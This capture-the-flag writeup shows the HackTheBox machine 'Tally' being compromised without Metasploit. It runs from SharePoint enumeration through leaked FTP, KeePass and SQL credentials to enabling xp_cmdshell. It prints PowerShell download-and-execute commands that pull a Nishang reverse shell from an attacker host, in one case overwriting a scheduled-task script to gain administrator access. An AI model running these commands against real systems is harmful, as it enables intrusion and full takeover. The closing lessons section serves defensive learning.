






# Tally Writeup w/o Metasploit



## Reconnaissance <a id="3dd9"></a>

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.59 All
```

* **All**: Runs all the scans consecutively.

```text
Running all scans on 10.10.10.59Host is likely running Windows---------------------Starting Nmap Quick Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 01:57 EST
Nmap scan report for 10.10.10.59
Host is up (0.043s latency).
Not shown: 726 closed ports, 267 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
80/tcp  open  http
81/tcp  open  hosts2-ns
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
808/tcp open  ccproxy-httpNmap done: 1 IP address (1 host up) scanned in 2.56 seconds---------------------Starting Nmap Basic Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 01:57 EST
Nmap scan report for 10.10.10.59
Host is up (0.15s latency).PORT    STATE SERVICE       VERSION
21/tcp  open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
81/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
808/tcp open  ccproxy-http?
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windowsHost script results:
|_clock-skew: mean: 2m34s, deviation: 0s, median: 2m33s
| ms-sql-info: 
|   10.10.10.59:1433: 
|     Version: 
|       name: Microsoft SQL Server 2016 RTM
|       number: 13.00.1601.00
|       Product: Microsoft SQL Server 2016
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-07T07:00:34
|_  start_date: 2020-03-07T06:59:02Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.28 seconds----------------------Starting Nmap UDP Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 01:59 EST
Warning: 10.10.10.59 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.59
Host is up (0.19s latency).
All 1000 scanned ports on 10.10.10.59 are closed (704) or open|filtered (296)Nmap done: 1 IP address (1 host up) scanned in 964.68 seconds---------------------Starting Nmap Full Scan----------------------
                                                                                                                                                                               
Nmap scan report for 10.10.10.59
Host is up (0.098s latency).
Not shown: 61247 closed ports, 4268 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
81/tcp    open  hosts2-ns
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
15567/tcp open  unknown
32843/tcp open  unknown
32844/tcp open  unknown
32846/tcp open  unknown
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknownRead data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 179.34 seconds
           Raw packets sent: 88392 (3.889MB) | Rcvd: 76277 (3.051MB)Making a script scan on extra ports: 1433, 5985, 15567, 32843, 32844, 32846, 47001, 49664, 49665, 49666, 49667, 49668, 49669, 49670
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 02:18 EST
Nmap scan report for 10.10.10.59
Host is up (0.081s latency).PORT      STATE SERVICE            VERSION
1433/tcp  open  ms-sql-s           Microsoft SQL Server 2016 13.00.1601.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: TALLY
|   NetBIOS_Domain_Name: TALLY
|   NetBIOS_Computer_Name: TALLY
|   DNS_Domain_Name: TALLY
|   DNS_Computer_Name: TALLY
|_  Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-03-07T06:59:32
|_Not valid after:  2050-03-07T06:59:32
|_ssl-date: 2020-03-07T07:22:19+00:00; +2m34s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
15567/tcp open  http               Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|   Negotiate
|_  NTLM
| http-ntlm-info: 
|   Target_Name: TALLY
|   NetBIOS_Domain_Name: TALLY
|   NetBIOS_Computer_Name: TALLY
|   DNS_Domain_Name: TALLY
|   DNS_Computer_Name: TALLY
|_  Product_Version: 10.0.14393
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
32843/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
32844/tcp open  ssl/http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
| ssl-cert: Subject: commonName=SharePoint Services/organizationName=Microsoft/countryName=US
| Subject Alternative Name: DNS:localhost, DNS:tally
| Not valid before: 2017-09-17T22:51:16
|_Not valid after:  9999-01-01T00:00:00
|_ssl-date: 2020-03-07T07:22:19+00:00; +2m34s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
32846/tcp open  storagecraft-image StorageCraft Image Manager
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc              Microsoft Windows RPC
49665/tcp open  msrpc              Microsoft Windows RPC
49666/tcp open  msrpc              Microsoft Windows RPC
49667/tcp open  msrpc              Microsoft Windows RPC
49668/tcp open  msrpc              Microsoft Windows RPC
49669/tcp open  msrpc              Microsoft Windows RPC
49670/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsHost script results:
|_clock-skew: mean: 2m34s, deviation: 0s, median: 2m33s
| ms-sql-info: 
|   10.10.10.59:1433: 
|     Version: 
|       name: Microsoft SQL Server 2016 RTM
|       number: 13.00.1601.00
|       Product: Microsoft SQL Server 2016
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.91 seconds---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                                                               
Running CVE scan on all ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 02:19 EST
/usr/local/bin/nmapAutomator.sh: line 226:  2165 Segmentation fault      $nmapType -sV --script vulners --script-args mincvss=7.0 -p$(echo "${ports}") -oN nmap/CVEs_"$1".nmap "$1"Running Vuln scan on all ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 02:20 EST
Nmap scan report for 10.10.10.59
Host is up (0.040s latency).PORT      STATE SERVICE            VERSION
21/tcp    open  ftp                Microsoft ftpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
80/tcp    open  http               Microsoft IIS httpd 10.0
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-server-header: Microsoft-IIS/10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
81/tcp    open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
135/tcp   open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
808/tcp   open  ccproxy-http?
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
1433/tcp  open  ms-sql-s           Microsoft SQL Server 2016 13.00.1601
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
|_tls-ticketbleed: ERROR: Script execution failed (use -d to debug)
| vulners: 
|   cpe:/a:microsoft:sql_server:2016: 
|       CVE-2020-0618   6.5     https://vulners.com/cve/CVE-2020-0618
|       CVE-2019-1068   6.5     https://vulners.com/cve/CVE-2019-1068
|       CVE-2016-7250   6.5     https://vulners.com/cve/CVE-2016-7250
|       CVE-2016-7249   6.5     https://vulners.com/cve/CVE-2016-7249
|       CVE-2017-8516   5.0     https://vulners.com/cve/CVE-2017-8516
|       CVE-2016-7251   4.3     https://vulners.com/cve/CVE-2016-7251
|_      CVE-2016-7252   4.0     https://vulners.com/cve/CVE-2016-7252
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
15567/tcp open  http               Microsoft IIS httpd 10.0
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /_layouts/images/helpicon.gif: MS Sharepoint
|_http-server-header: Microsoft-IIS/10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
32843/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
32844/tcp open  ssl/http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_sslv2-drown: 
32846/tcp open  storagecraft-image StorageCraft Image Manager
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
49664/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49665/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49666/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49667/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49668/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49669/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49670/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windowsHost script results:
|_samba-vuln-cve-2012-1182: No accounts left to try
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: No accounts left to tryService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 839.56 seconds
```

We have 22 ports open.

* **Port 21:** running Microsoft ftpd
* **Ports 80, 81, 5985, 32843, 32844 & 47001**: running Microsoft HTTPAPI httpd 2.0
* **Port 15567:** running Microsoft IIS httpd 10.0
* **Ports 139 & 445:** running SMB
* **Ports 135, 49664, 49665, 49666, 49667, 49668, 49669 & 49670:** running Microsoft Windows RPC
* **Port 808:** running ccproxy-http
* **Port 1433:** running Microsoft SQL Server 2016
* **Port 32846:** running StorageCraft Image Manager

Before we move on to enumeration, let’s make some mental notes about the scan results.

* We have a bunch of ports running web servers. We’ll start off with enumerating port 80 and work our way down. I terminated nmapAutomator since it would have taken a very long time to enumerate all those ports.
* Nmap didn’t report anonymous login for FTP, so this is unlikely to be our point of entry, unless we get credentials. Nmap has reported this as a false negative before, so it is always good to manually verify it.
* Same goes for SMB. We’ll need credentials to access the service.
* Port 1433 is running a Microsoft SQL Server. If we can find a system administrator account, we’ll have code execution.

## Enumeration <a id="c7f9"></a>

I always start off with enumerating HTTP.

### Port 80 HTTP <a id="15d6"></a>

Visit the application in the browser.



It’s running SharePoint. Since SharePoint has specific directories, we won’t use the normal word list when we gobuster it. Instead we’ll use a specific one to [sharePoint](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/sharepoint.txt).

```text
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CMS/sharepoint.txt -u 10.10.10.59
```

This outputs a ton of results to go through. It is easier to instead just do a google search on the [important URLs](https://mstechtalk.com/sharepoint-important-urls/) in SharePoint and try those. One interesting entry is the _viewlsts.aspx_ page that displays the site content.


We see that there is one document and one site page. Clicking on _Documents_ we find a document titled _ftp-details_.



Download the document and view it.

```text
FTP detailshostname: tallyworkgroup: htb.localpassword: UTDRSCH53c"$6hysPlease create your own user folder upon logging in
```

The document contains an FTP password but no username. Next, click on _SitePages_. This for some reason directs us to the following incorrect URL.

```text
http://10.10.10.59/_layouts/15/start.aspx#/SitePages/Forms/AllPages.aspx
```

Simply removing the _\_layouts/15/start.aspx\#_ portion of the URL allows us to view the site pages.



Click on the _Finance Team_ page.



Now we have both a username and password to log into the FTP server!

### Port 21 FTP <a id="bba9"></a>

Log into FTP.

```text
root@kali:~# ftp 10.10.10.59
Connected to 10.10.10.59.
220 Microsoft FTP Service
Name (10.10.10.59:root): ftp_user
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
```

View the files in the current directory.

```text
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
08-31-17  10:51PM       <DIR>          From-Custodian
10-01-17  10:37PM       <DIR>          Intranet
08-28-17  05:56PM       <DIR>          Logs
09-15-17  08:30PM       <DIR>          To-Upload
09-17-17  08:27PM       <DIR>          User
226 Transfer complete.
```

Navigating through the directories, we find a KeePass database in Tim’s directory.

```text
ftp> pwd
257 "/User/Tim/Files" is current directory.ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
09-15-17  07:58PM                   17 bonus.txt
09-15-17  08:24PM       <DIR>          KeePass-2.36
09-15-17  08:22PM                 2222 tim.kdbx
226 Transfer complete
```

Download the database to our attack machine.

```text
ftp> get tim.kdbx
```

The KeePass database is password protected. In order to crack the password using John the Ripper \(JtR\), we’ll have to extract a JtR compatible hash of the password. This can be done as follows.

```text
keepass2john tim.kdbx > hash.txt
```

Then run JtR on the hash.

```text
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

We get a hit back informing us that the password is “_simplementeyo_”.

Now we have all the information we need to open the KeePass database. To do that from the command line, we’ll use the _kpcli_ program.

```text
root@kali:~/Desktop/htb/tally# kpcli --kdb tim.kdbx
```

Going through the entries, we find two credentials. One of the credentials _Finance/Acc0unting_ labelled _Tally ACCT share_ will probably give us access to SMB, so we’ll start there.

### Port 139 SMB <a id="8cb7"></a>

Let’s log into the _ACCT_ share using the credentials we found.

```text
root@kali:~/Desktop/htb/tally/smb# smbclient //10.10.10.59/ACCT -U FinanceEnter WORKGROUP\Finance's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                            D        0  Mon Sep 18 01:58:18 2017
  ..                           D        0  Mon Sep 18 01:58:18 2017
  Customers                    D        0  Sun Sep 17 16:28:40 2017
  Fees                         D        0  Mon Aug 28 17:20:52 2017
  Invoices                     D        0  Mon Aug 28 17:18:19 2017
  Jess                         D        0  Sun Sep 17 16:41:29 2017
  Payroll                      D        0  Mon Aug 28 17:13:32 2017
  Reports                      D        0  Fri Sep  1 16:50:11 2017
  Tax                          D        0  Sun Sep 17 16:45:47 2017
  Transactions                 D        0  Wed Sep 13 15:57:44 2017
  zz_Archived                  D        0  Fri Sep 15 16:29:35 2017
  zz_Migration                 D        0  Sun Sep 17 16:49:13 2017
8387839 blocks of size 4096. 709452 blocks available
```

After enumerating all the directories, we find two interesting entries. The first is in the _zz\_Archived\SQL_ directory.

```text
smb: \> cd \zz_Archived\SQLsmb: \zz_Archived\SQL\> dir
  .                           D        0  Fri Sep 15 16:29:36 2017
  ..                          D        0  Fri Sep 15 16:29:36 2017
  conn-info.txt               A       77  Sun Sep 17 16:26:56 2017
8387839 blocks of size 4096. 709178 blocks availablesmb: \zz_Archived\SQL\> get conn-info.txt
getting file \zz_Archived\SQL\conn-info.txt of size 77 as conn-info.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

View the content of the file on the attack machine.

```text
old server detailsdb: sa
pass: YE%TJC%&HYbe5Nwhave changed for tally
```

We have SQL credentials for an old server.

The other interesting entry we found is in the _zz\_Migration\Binaries\New_ folder directory.


The file _tester.exe_ looks like a custom executable file. Download it to your attack machine.

```text
get tester.exe
```

Use the _strings_ command to print the list of printable characters in the file.

```text
root@kali:~/Desktop/htb/tally/smb# strings tester.exe...
WVS3
<$Xf
^_[3
SQLSTATE: 
Message: 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
Unknown exception
bad cast
bad locale name
false
true
generic
iostream
iostream stream error
ios_base::badbit set
...
```

We get another SQL username and password.

```text
username: sa
password: GWE3V65#6KFH93@4GWTG2G
```

### Port 1433 SQL <a id="471c"></a>

Let’s test out the first credentials we found to log into the database.

```text
sqsh -S 10.10.10.59 -U sa -P "YE%TJC%&HYbe5Nw"
```

* **-S:** server
* **-U:** username
* **-P:** password

We get a login failed error. Let’s test out the second credentials we found.

```text
sqsh -S 10.10.10.59 -U sa -P "GWE3V65#6KFH93@4GWTG2G"
```

We’re in!


Since this is a System Administrator \(SA\) account, we should be able to run system commands.

Test out the _whoami_ command using _xp\_cmdshell_.

```text
1> xp_cmdshell 'whoami';
2> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1 SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

We get an error telling us that the _xp\_cmdshell_ option is disabled. Since we have an account with the highest level of privilege \(SA\), we can simply [enable it](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

```text
1> EXEC sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
1> RECONFIGURE; 
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to
install.
(return status = 0)
1> RECONFIGURE;
2> go
```

Try the _whoami_ command again.



Perfect, we finally have code execution!

## Initial Foothold <a id="7bb0"></a>

Let’s use that to send a reverse shell to our attack machine.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then download and execute the powershell script in SQL.

```text
1> xp_cmdshell "powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell.ps1')"
2> go
```

We get a shell!


Grab the _user.txt_ flag.


## Privilege Escalation <a id="3c7d"></a>

View the content of Sarah’s desktop directory.

```text
PS C:\Users\Sarah\Desktop> dirDirectory: C:\Users\Sarah\DesktopMode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---       01/10/2017     22:32            916 browser.bat                                                           
-a----       17/09/2017     21:50            845 FTP.lnk                                                               
-a----       23/09/2017     21:11            297 note to tim (draft).txt                                               
-a----       19/10/2017     21:49          17152 SPBestWarmUp.ps1                                                      
-a----       19/10/2017     22:48          11010 SPBestWarmUp.xml                                                      
-a----       17/09/2017     21:48           1914 SQLCMD.lnk                                                            
-a----       21/09/2017     00:46            129 todo.txt                                                              
-ar---       31/08/2017     02:04             32 user.txt                                                              
-a----       17/09/2017     21:49            936 zz_Migration.lnk
```

There’s two interesting files _SPBestWarmUp.ps1_ and _SPBestWarmUp.xml_. Looking through the _SPBestWarmUp.xml_ script we see that it is running the _SPBestWarmUp.ps1_ with _Administrator_ privileges every hour \(indicated by the field _&lt;Interval&gt;PT1H&lt;/Interval&gt;_\) . This is probably run as a scheduled task. We can confirm that once we get a reverse shell with administrator privileges.

```text
<CalendarTrigger>
      <Repetition>
        <Interval>PT1H</Interval>
        <Duration>P1D</Duration>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2017-01-25T01:00:00</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
</CalendarTrigger>....<Principals>
    <Principal id="Author">
      <UserId>TALLY\Administrator</UserId>
      <LogonType>Password</LogonType>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>....<Actions Context="Author">
    <Exec>
      <Command>PowerShell.exe</Command>
      <Arguments>-ExecutionPolicy Bypass -File SPBestWarmUp.ps1 -skipadmincheck</Arguments>
      <WorkingDirectory>C:\Users\Sarah\Desktop</WorkingDirectory>
    </Exec>
  </Actions>
```

Let’s view the permissions on _SPBestWarmUp.ps1._

```text
PS C:\Users\Sarah\Desktop> Get-Acl SPBestWarmUp.ps1 | Format-ListPath   : Microsoft.PowerShell.Core\FileSystem::C:\Users\Sarah\Desktop\SPBestWarmUp.ps1
Owner  : TALLY\Sarah
Group  : TALLY\None
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         TALLY\Sarah Allow  FullControl
Audit  : 
Sddl   : O:S-1-5-21-1971769256-327852233-3012798916-1000G:S-1-5-21-1971769256-327852233-3012798916-513D:(A;ID;FA;;;SY)(
         A;ID;FA;;;BA)(A;ID;FA;;;S-1-5-21-1971769256-327852233-3012798916-1000)
```

As the user _Sarah_, we own the file. Therefore, we could simply change the content of the file to include a reverse shell and wait until the hour changes and the scheduled task gets executed with administrator privileges.

Change the content of the script to send a reverse shell back to our attack machine.

```text
echo "iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell-2.ps1')" > SPBestWarmUp.ps1
```

Wait until the scheduled task is run. We get a shell!


We can view the scheduled tasks using the following command.


Grab the _root.txt_ flag.


## Lessons Learned <a id="712a"></a>

To gain an initial foothold on the box we exploited four vulnerabilities.

1. Insecure SharePoint permissions. An anonymous user was allowed to access SharePoint content. We used that to our advantage to enumerate site pages and documents on SharePoint. The administrator should have secured/restricted external anonymous access, especially when it is a public facing website.
2. Cleartext FTP credentials. After enumerating the content saved on SharePoint, we found a document that contains an FTP password and a site page that contains the username that corresponded to the password. We then used these credentials to log into the FTP server. Sensitive information should not be stored in cleartext and permission restrictions should be put in place that prevent an unauthorized user from accessing files that contain sensitive information.
3. Weak authentication credentials. After logging into the FTP server, we found a KeePass database that was protected with a weak password. Clearly, the user is security-aware and therefore is using a KeePass database to store his passwords. However, the password to the database was not strong enough and therefore we were able to crack it in a matter of seconds and gain access to all the other passwords that the user had stored in the database. The user should have used a strong password that is difficult to crack.
4. Hardcoded password in an executable. After cracking the password for the KeePass database, we found SMB credentials that allowed us to log into one the shares. There, we found a custom executable file that contained a hardcoded SQL system administrator \(SA\) password. Using these credentials, we logged into the SQL database and executed system commands to gain initial access on the box. It’s considered insecure practice to store passwords in applications. If it is absolutely necessary, there are several ways you can obscure these passwords and make it harder for an attacker to discover the passwords. However, with enough skill, time and motive, the attacker will be able recover the passwords.

To escalate privileges we exploited one vulnerability.

1. Security misconfiguration. There is a scheduled task that runs a user owned file with administrator privileges. Since we owned the file, we simply changed the content of the file to send a reverse shell back to our attack machine. To avoid this vulnerability, the scheduled task should have been run with user privileges as apposed to administrator privileges. Or, restrictions should have been put on the script that only allow an administrator to change the file.

